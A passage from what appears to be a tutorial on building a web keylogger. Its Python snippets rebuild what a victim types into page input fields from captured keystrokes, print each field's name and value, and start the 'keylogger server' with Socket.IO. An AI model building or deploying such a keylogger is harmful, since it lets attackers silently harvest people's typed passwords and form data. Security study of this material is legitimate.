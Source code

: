 If the character is not a backspace, we check to see if the delete key has been pressed. If it has, we either delete any highlighted text or delete the character immediately following the user's cursor.

{% highlight python %}

    elif keystroke == 'DELETE':

        if selection_start == selection_end and selection_end != len(contents):
            contents.pop(selection_start)
        else:
            del contents[selection_start:selection_end]

{% endhighlight %}
			
If neither the backspace or delete key have been pressed, we assume that the preliminary keystroke represents a printable character. We then check to see if the shift key has been pressed and, if it has, modify the keystroke accordingly. Lowercase letters become uppercase, numbers become symbols, and so on and so forth. If the user has any text highlighted, we delete it. We then insert the finalized keystroke at the current cursor position. The updated contents of the input field is saved for use with the next keystroke.

{% highlight python %}

    else:
        
        if shift_pressed:

            if keystroke in tables.shift:
                keystroke = tables.shift[keystroke]
            elif keystroke.isalpha():
                keystroke = keystroke.upper()

        if selection_start != selection_end:
            del contents[selection_start:selection_end]

        contents.insert(selection_start, keystroke)

{% endhighlight %}

We then print the current contents of the input field to the console.

{% highlight python %}

    print '<input id="%s" type="%s" class="%s" name="%s" /> textval: %s' %\
            (message['id'],
            message['type'],
            message['class'],
            message['name'],
            ''.join(contents))

{% endhighlight %}
		
Finally, at the bottom of our file, we call socketio.run() to start our keylogger server.

{% highlight python %}

if __name__ == '__main__':

    socketio.run(app, host='0.0.0.0', port=LPORT)

{% endhighlight %}
